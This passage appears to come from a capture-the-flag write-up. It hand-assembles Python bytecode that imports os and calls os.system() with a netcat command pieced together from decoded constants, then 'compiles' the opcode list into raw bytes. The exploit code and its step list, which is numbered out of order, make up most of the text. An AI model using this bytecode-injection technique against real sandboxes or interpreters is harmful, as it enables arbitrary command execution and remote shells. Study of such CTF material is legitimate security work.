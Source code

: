 So we didn't get around crafting our own code:

```  
# This is the index where we will later store the nc command  
nc_index = ord("b")  
co_names = ["len", "list", "print", "os", "system", "decode"]

exploit_asm = [  
   # Get length of empty list to push 0 on the stack  
   ("BUILD_LIST", 0),  
   # Use NOP as arg to simplify compiler  
   ("GET_LEN", 0x09),  
   # Invoke print() to push None onto the stack  
   ("LOAD_NAME", co_names.index("print")),  
   ("CALL_FUNCTION", 0),  
   # Import os  
   ("IMPORT_NAME", co_names.index("os")),  
   # Invoke os.system()  
   ("LOAD_METHOD", co_names.index("system")),  
   # Decode first batch of nc command  
   ("LOAD_CONST", nc_index),  
   ("LOAD_METHOD", co_names.index("decode")),  
   ("CALL_METHOD", 0),  
   # Decode second batch of nc command  
   ("LOAD_CONST", nc_index + 1),  
   ("LOAD_METHOD", co_names.index("decode")),  
   ("CALL_METHOD", 0),  
   # Decode third batch of nc command  
   ("LOAD_CONST", nc_index + 2),  
   ("LOAD_METHOD", co_names.index("decode")),  
   ("CALL_METHOD", 0),  
   # Concatenate the three strings  
   ("BUILD_STRING", 3),  
   # Finaly invoke the nc command  
   ("CALL_METHOD", 1),  
]  
```

This performs the following:

1. Invoke `len(list())` to push `0` onto the stack  
2. Invoke `print()` to push `None` onto the stack  
5. Import `os`  
3. Load all three batches of the `nc` command  
4. Decode the command batches because `BUILD_STRING` only works with strings and not byte strings  
4. Concatenate the `nc` command  
6. Invoke the `nc` command via `os.system()`

Then, we can "compile" the code:

```  
exploit_bytecode = b""  
for op_name, arg in exploit_asm:  
   exploit_bytecode += bytes([opmap[op_name], arg])  
```
